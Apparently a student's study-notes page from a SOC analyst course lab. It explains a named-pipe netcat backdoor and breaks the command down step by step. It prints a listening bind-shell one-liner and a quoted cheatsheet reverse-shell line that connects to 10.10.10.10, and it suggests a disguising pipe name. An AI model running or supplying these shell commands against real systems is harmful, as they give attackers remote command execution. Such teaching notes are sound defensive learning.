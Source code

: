 ```yaml
---
{"dg-publish":true,"permalink":"/tool-deep-dives/linux/named-pipe/"}
---
```


During the [[BHIS Antisyphon and Webinars/BlackHills SOC Core/BHIS SOCC Notes Overview\|BHIS SOC Analyst Core]] course I took recently, the [[BHIS Antisyphon and Webinars/BlackHills SOC Core/Labs/BHIS-SOCC-lab-LinuxCLI\|Linux Lab]] had an interesting command where you create a FIFO (First in, First out) "backpipe" with `mknod` (create filesystem node) and `netcat`, effectively creating a shell [[Definitions and Topics/backdoor\|backdoor]] on a [[Tool Deep-Dives/Linux\|Linux]] system.

```Bash
mknod backpipe p
/bin/bash 0<backpipe | nc -l 2222 1>backpipe
```


Basically, `mknod <string> p` creates a named *pipe* (specified by the `p`) called "backpipe" (though it could functionally be named anything that doesn't conflict with other things; for example in the [[BHIS Antisyphon and Webinars/BlackHills SOC Core/Labs/BHIS-SOCC-lab-tcpdump#Bonus Lab\|tcpdump Bonus Lab]], one could name it *timesync.svc* or something similar to make it less obvious). This *Named Pipe* allows us to pipe an output *from* any location in the shell *to* any location in the shell.
![ThinkingWithPortals.gif|300](/img/user/Attachments/ThinkingWithPortals.gif)

Additionally, `>` and `<` can be used to redirect input in a script; for example, if we ran `./FiscalReport.sh < 2024Q1.csv`, the `FiscalReport` shell script would input the values from `2024Q1.csv`. 

Let's break backpipe command down and see what's going on.
1. `mknod backpipe p`
	1. Creates a named pipe called "backpipe"
2. `/bin/bash 0<backpipe`
	1. `/bin/bash` reads its [[Tool Deep-Dives/Linux/Linux Data Streams\|standard input]] (`stdin`, file descriptor `0`) from the "backpipe"
		2. `backpipe`'s output becomes `/bin/bash`'s input
3. `|`
	1. The output from the prior command is pipe into the following command
4. `nc -l 2222 1>backpipe`
	1. Netcat listens to port *2222* and the [[Tool Deep-Dives/Linux/Linux Data Streams\|standard output]] (`stdout`, file descriptor `1`) is sent into the named pipe "backpipe"

**To summarize,** this forms a loop; *Netcat* listens for data on port *2222*, sends it to the *backpipe*. The *backpipe* sends the output to *Bash*'s input, and *Bash*'s output gets piped to *Netcat*. 


![nyow-youre-thinking-with-portals-e1303609354625.jpg](/img/user/Attachments/nyow-youre-thinking-with-portals-e1303609354625.jpg)

This is a [[Reverse Shell\|Reverse Shell]], which allows an attacker to execute shell commands on a remote system.

[Reverse shell cheatsheet](https://saucer-man.com/reverse/) has a similar command, which I've pasted below:

`mknod backpipe p && nc 10.10.10.10 4444 0<backpipe | /bin/bash 1>backpipe`

This is all pretty wild, but what else can we do with a backpipe? Like what we